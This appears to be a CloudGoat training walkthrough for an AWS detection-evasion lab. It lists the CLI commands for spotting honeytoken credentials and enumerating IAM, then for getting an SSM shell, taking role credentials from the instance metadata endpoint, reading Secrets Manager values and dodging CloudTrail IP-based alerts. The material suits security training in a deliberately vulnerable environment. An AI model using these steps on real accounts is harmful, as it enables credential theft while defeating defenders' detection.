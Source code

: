 ## Easy Path

1. Iterate through the starting credentials to identify the honeytokens. There are a few ways to do this. Pacu has a module for this process, but we reccomend doing it manually in order to understand the process here. 

    ```bash
    # There are services which do not log to CloudTrail. Honeytokens almost never grant permissions to ANY services, let alone these services which do not log to CloudTrail. Thus ,the call below will fail for a honeytoken, but will reveal the ARN of the principal associated with the credentials. This information is usually sufficient to infer if the principal is only being used for honeytokens.
    aws --profile cg1 --region us-east-1 sdb list-domains
    # The above command reveals that user1 is "user/canarytokens.com@@kz9r8ouqnhve4zs1yi4bzspzz". These tokens are generated by a third party honeytoken service "canarytokens.com" (as you may have guessed). 
    aws --profile cg2 --region us-east-1 sdb list-domains
    # The above command reveals that user2 is "user/SpaceCrab/l_salander". This indicates that the honeytoken was generated by SpaceCrab (a tool which appears to now be outdated).
    aws --profile cg3 --region us-east-1 sdb list-domains
    # The above command reveals that user3 is "user/cd1fceca-e751-4c1b-83e4-78d309063830". Although not nearly as suspicious as the first two users, this UUID format indicated that the user is being automatically generated. This UUID format is also used by the SpaceSiren honeytoken tool.   
    aws --profile cg4 --region us-east-1 sdb list-domains
    # The above command reveals that user4 has permissions to the sdb service, and is therefore likely a legitimate user.
    ```

2. Now that you have identified which pair of credentials are honeytokens and which are likely legitimate, you can perform some enumeration to determine who you are, what group you are a part of, what permissions are assigned to that group, what EC2 instances exist, and which one to target in the next step.

    ```bash
    # The command below will reveal the ARN of your current principal. 
    aws --profile cg4 sts get-caller-identity
    # The command below will list the groups to which your user belongs.
    aws --profile cg4 iam list-groups-for-user --user-name r_waterhouse
    # The command below will list the policies attached to your group.
    aws --profile cg4 iam list-group-policies --group-name cg-developers
    # The command below will list out the developer policy in detail. You will see a statement focusing on SSM which includes "ssm:StartSession". This will be used later to get a shell on an EC2 instance.
    aws --profile cg4 iam get-group-policy --group-name cg-developers --policy-name developer_policy
    # The command below will reveal that the AWS managed policy "ReadOnlyAccess" is attached to the cg-developers group.
    aws --profile cg4 iam list-attached-group-policies --group-name cg-developers
    # The command below will list all EC2 instances, revealing the instance that we will target in this section "easy_path-cg-detection-evasion"
    aws --profile cg4 --region us-east-1 ec2 describe-instances
    ```

3. Use SSM to get a shell on the "easy_path" instance.

    ```bash
    # The command below will result in a shell on the EC2 instance of your choice. 
    aws --profile cg4 --region us-east-1  ssm start-session --target [INSTANCE_ID]
    ```

4. Determine if there is a role associated with this EC2 instance.

    ```bash
    # The command below will reach out to the IMDS endpoint, and will return the name of an instance profile.
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials
    # The command below will reach out to the IMDS endpoint, and will return credentials for the role associated with this instance.
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[INSTANCE_PROFILE]
    ```


5. Install the AWS CLI, list all secrets, and read the contents of the associated secrets. This step is another opportunity to trigger alerts. If you use the credentials associated with this instance from an unknown IP, an alert will be triggered. This is why we install the CLI on the EC2 instance and take actions from there.

    ```bash
    # The command below will confirm that the AWS CLI is not installed.
    aws --version
    # The command below will install the AWS CLI.
    sudo yum install awscli.noarch -y
    # The command below will confirm that the AWS CLI is installed.
    aws --version
    # The command below will list all secrets in secrets manager. 
    aws --region us-east-1  secretsmanager list-secrets
    # The command below will read out the value for the secret associated with this path. 
    aws --region us-east-1  secretsmanager get-secret-value --secret-id [SECRET_ARN]
    ```


## Hard Path

Steps 1-4 are almost identical for the "hard path" of this scenario. The only difference is, on step 3, you will target the "hard_path-cg-detection-evasion" instance. In this light, we will start the steps for the "hard path" on step 5, after you have retrieved the credentials from IMDS.

5. Check if the AWS CLI is installed. Realize you have no internet access. Unlike the "easy path", you cannot take actions with the CLI from this instance. Yet, like the "easy path", any event logged in CloudTrail, using credentials from this instance and from an IP other than that of this EC2 instance, will trigger alerts. 

    ```bash
    # The command below will confirm that the AWS CLI is installed. However, attempts to use it will fail. This is because the instance has no access to the public internet. 
    aws --version
    # You can run any aws command from this instance to confirm that it will not work.
    aws sts get-caller-identity
    ```

6. There is a way to spoof arbitrary IP addresses in CloudTrail, and you can read about it in [this blog post](https://www.hunters.ai/blog/hunters-research-detecting-obfuscated-attacker-ip-in-aws). Instead of walking through this entire technique in duplicate here, we have added a folder with terraform code that will deploy the necessary resources to perform the bypass.

    ```bash
    # Move into the terraform folder for this attack, starting at the root level of the cloudgoat repo.
    cd scenarios/detection_evasion/vpc_endpoint_spoofing_resources/
    # Follow the README.md in this folder
    cat README.md
    ```
7. Once you have deployed the terraform resources mentioned above, you should have a shell on the ec2 instance that was created. Run the following on that instance.


    ```bash
    # The command below will list all secrets in secretsmanager.
    aws --region us-east-1 secretsmanager list-secrets
    # The command below will
    aws --region us-east-1 secretsmanager get-secret-value --secret-id [ARN_OF_TARGET_SECRET]
    ```

At this point you have finished the scenario. Don't forget to run `terraform destroy` in the `vpc_endpoint_spoofing_resources` directory before or after destroying the cloudgoat scenario.